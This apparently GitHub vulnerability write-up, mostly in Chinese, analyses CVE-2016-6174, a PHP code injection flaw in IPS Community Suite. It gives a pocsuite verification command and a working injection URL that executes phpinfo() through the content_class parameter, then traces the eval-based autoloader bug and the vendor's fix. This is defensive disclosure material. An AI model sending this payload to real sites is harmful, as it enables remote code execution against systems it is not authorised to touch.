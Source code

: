 # IPS_Autoloaded_PHP_CODE_EXEC
## SSV-92096,CVE-2016-6174
    pocsuite -r ips_community_suite_PoC.py -u "http://localhost/ips" --verify
***
# IPS Community Suite 自动加载的PHP代码注入漏洞（CVE-2016-6174）
## 一、漏洞概述

### 1.漏洞信息
"IPS Community Suite "是一款国外比较常见的cms。但在其4.1.12.3版本及以下版本，存在PHP代码注入漏洞，该漏洞源于程序未能充分过滤content_class请求参数。远程攻击者可利用该漏洞注入并执行任意PHP代码。
### 2. 漏洞触发条件：
-------
IPS版本：<=4.1.12.3

php环境：<=5.4.24和5.5.0-5.5.8

### 3. 漏洞复现效果图：
-------

![Alt text](./phpinfo.png)

### 4. 漏洞原理图：
-------
![Alt text](./IPS7.png)


### 5. 检测poc

`http://[host]/[ips]/index.php?app=core&module=system&controller=content&do=find&content_class=cms\Fields1{}phpinfo();/*`

## 二、漏洞分析

首先，在cms的入口`index.php`中的`IPS\Controller\Front::i()`
在调用run方法运行程序时:

`IPS\Controller\Front`

会作为自动加载类先被`init.php`中的`autoloader()`方法所重定向并包含。

在该过程中会首先包含`IPS\Request`(`/system/Request/Request.php`),参数在这里被接收：

```

 IPS\Request Object (
  [_url:protected] => IPS\Http\Url Object (
    [url:protected]
    => http://localhost/IPS/index.php?app=core&module=system&controller=content&do=find&content_class=cms\Fields1{}phpinfo();/*
    [data] => Array (
      [scheme] => http
      [host] => localhost
      [path] => /IPS/index.php
      [query] => app=core&module=system&controller=content&do=find&content_class=cms\Fields1{}phpinfo();/*
      )
      [queryString] => Array (
        [app] => core
        [module] => system
        [controller] => content
        [do] => find
        [content_class] => cms\Fields1{}phpinfo();/* )
        [isInternal] => 1
        [isFriendly] =>
      )
      [data:protected] => Array (
        [app] => core
        [module] => system
        [controller] => content
        [do] => find
        [content_class] => cms\Fields1{}phpinfo();/*
      )
  )
```

可以明显的看到url被`Request`对象中的`data`数组以键值得形式所接收并存储。

之后会包含`IPS\Dispatcher\Standard`，在这个类中，有以下定义：

```
$this->classname = 'IPS\\' . $this->application->directory . '\\modules\\' . $this->controllerLocation . '\\' . $this->module->key . '\\' . $this->controller;
```

会将之前接收的参数拼接成`$classname`(`$classname=IPS\core\modules\front\system`)。

包含执行完毕后在`IPS\Dispatcher`中调用方法`run()`方法：

``` php
public function run()
{
  /* Init class */
  if( !class_exists( $this->classname ) )
  {
    \IPS\Output::i()->error( 'page_doesnt_exist', '2S100/1', 404 );
  }
  $this->dispatcherController = new $this->classname;
  if( !( $this->dispatcherController instanceof \IPS\Dispatcher\Controller ) )
  {
    \IPS\Output::i()->error( 'page_not_found', '5S100/3', 500, '' );
  }

  /* Execute */
  $this->dispatcherController->execute();

  $this->finish();
}
```
可以看到现在的`$this->dispatcherController=IPS\core\modules\front\system`。
之后判断`IPS\core\modules\front\system`是否为`\IPS\Dispatcher\Controller`的子类。

在` /applications/core/modules/front/system/content.php`找到`IPS\core\modules\front\system`:

```
namespace IPS\core\modules\front\system;
class _content extends \IPS\Dispatcher\Controller
```
满足条件，之后便执行`execute()`方法。


在`/system/Dispatcher/Controller.php`中有：

```
call_user_func( array( $this, \IPS\Request::i()->do ) );
```

以上函数就是将`execute()`函数作为回调函数执行，而`execute()`函数在`/system/Dispatcher/Dispatcher.php`中的`i()`方法执行。`i()`方法将`Controller`作为一个静态类名；等同于现在将执行`IPS\Dispatcher\Controller`中的`find()`方法也就是执行`IPS\core\modules\front\system`中的`find()`方法：

``` php

$class = 'IPS\\' .implode('\\',explode('_'IPS\Request::i()->content_class ) );

if ( ! class_exists( $class ) or ! in_array( 'IPS\Content', class_parents( $class ) ) )
{
	\IPS\Output::i()->error( 'node_error', '2S226/2', 404, '' );
}
```

这里对我们传进来的`content_class`参数进行了处理，处理后的`$class`为`IPS\cms`，由于`class_exists()`函数本身的机制，导致它默认执行`__autoload`。

php在底层寻找`IPS\cms`（`/applications/cms/Application.php`），`$class`作为参数被调入其中的`spl_autoload_register()`函数。其中在：

```
if ( mb_substr( $class, 0, 14 ) === 'IPS\cms\Fields' and is_numeric( mb_substr( $class, 14, 1 ) ) )
{
  $databaseId = mb_substr( $class, 14 );
  eval( "namespace IPS\\cms; class Fields{$databaseId} extends Fields { public static \$customDatabaseId = $databaseId; }" );
}
```
这里将我们构造的poc的前14个字符截断，与`IPS\cms\Fields`进行比较，之后判断第15个字符是否为数字或字符串，满足条件后，再将截取前14个字符串之后的值作为`$databaseId`，也就是：

`$databaseId=1{}phpinfo();/*`

  将其带入到`eval()`函数中，造成我们构造的php代码执行。

## 三、官方修复分析

经过我们的分析对比

发现 ／applications/cms/Application.php这个文件中 原来的`spl_autoload_register()`和更新后

![Alt text](./ips_fix.png)


我们可以看到，官方利用`intval()`函数对最后传入的`$class`进行来整数验证

使得传入的`$class`的第14位后被限定成为一个整数，防止传入字符串进入`eval()`

>**而升级PHP版本带来的修复是**

在`PHP`的新版本`>=5.4.25`或者`>=5.5.9`里变更了`class_exists`的机制

而低于的版本则没有此限制可以正常触发漏洞
```
    $class = 'IPS' . implode( '', explode( '_', IPSRequest::i()->content_class ) );
    if ( ! class_exists( $class ) or ! in_array( 'IPSContent', class_parents( $class ) ) )
    {
        IPSOutput::i()->error( 'node_error', '2S226/2', 404, '' );
    }
```

此处

`$class="IPS\cms\Fields1{}phpinfo();/*"`的时候不再触发`class_exists()`去加载

`／applications/cms/Application.php`中的`spl_autoload_register()`故不再触发漏洞

## 四、漏洞修复

- 及时升级程序版本
- `PHP` `5.4.x`升级至`5.4.25`以上，`5.5.x`升级至`5.5.9`以上
- `IPS` 升级至`4.12.3.1`以上

## 五、参考
* https://www.seebug.org/vuldb/ssvid-92096
* https://invisionpower.com/
* http://windows.php.net/downloads/releases/archives/
* http://karmainsecurity.com/KIS-2016-11
* http://cve.mitre.org/cgi-bin/cvename.cgi?name=2016-6174
